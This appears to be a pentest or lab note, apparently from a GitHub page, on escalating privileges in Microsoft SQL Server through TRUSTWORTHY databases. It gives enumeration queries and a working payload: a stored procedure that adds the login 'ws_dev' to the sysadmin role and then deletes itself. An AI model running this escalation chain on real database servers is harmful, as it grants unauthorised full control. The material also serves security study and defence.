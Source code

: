 #### 1. 🔍 Enumerate Databases and Trust Status

To find all databases, their owners, and whether they're marked as trustworthy:

```sql
SELECT a.name AS 'database', b.name AS 'owner', is_trustworthy_on
FROM sys.databases a
JOIN sys.server_principals b ON a.owner_sid = b.sid;
```

![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/f1b7f294-5661-4765-ad98-5e9ba5a4e5ae/image.png?table=block&id=1c385370-06ca-80c4-ac21-d30a814a877f&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744516800000&signature=z2A1wkdRQq7l94o6Cvm8U99uDB_dcG4qkV-wUASt7tY&downloadName=image.png)

- `is_trustworthy_on = 1` → candidate for abuse
- Check if you have access to any database where your current login is in the `db_owner` role.

#### 2. 🔍 Enumerate Database-Level Users and Roles
    
Switch to a target database and list users and their roles:

```sql
USE webshop;
EXECUTE sp_helpuser;
```

![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/d9f843a5-3b0e-44e5-b935-b0a93d2b7b04/image.png?table=block&id=1c385370-06ca-8008-b9a4-dd025d8fd909&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744516800000&signature=kfHdWLJ2vOewAcU3O2lbWa_pD86qbNFB681lI4cAbZI&downloadName=image.png)

This stored procedure helps list the users in a particular database along with their roles and permissions [sp-helpuser](ttps://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-helpuser-transact-sql?view=sql-server-ver16).

    
#### 3. 🔍 Deeper Role Membership Check
    
To check the exact members of the `db_owner` role in that database:

```sql
USE webshop;
SELECT b.name AS role_name, c.name AS member_name
FROM webshop.sys.database_role_members a
JOIN webshop.sys.database_principals b ON a.role_principal_id = b.principal_id
LEFT JOIN webshop.sys.database_principals c ON a.member_principal_id = c.principal_id;
```

![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/7d3cd9aa-9ee7-48dd-9f80-53443ab95881/image.png?table=block&id=1d385370-06ca-8062-bbc6-df0a2d04178e&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744516800000&signature=_gk_him0cOnxlLHMwLuTyZ_9bNWS1eoUAV81mNPTHEg&downloadName=image.png)

- This shows who holds which roles.
- Empty names might indicate users you can't see due to permission limits.

#### 4. ⚙️ Privilege Escalation Payload
    
Once you have a user in `db_owner` and the DB is trustworthy, you can escalate to `sysadmin`:

```sql
CREATE PROCEDURE sp_privesc
WITH EXECUTE AS OWNER
AS
    EXEC sp_addsrvrolemember 'ws_dev', 'sysadmin';
GO

EXECUTE sp_privesc;
DROP PROCEDURE sp_privesc;
```
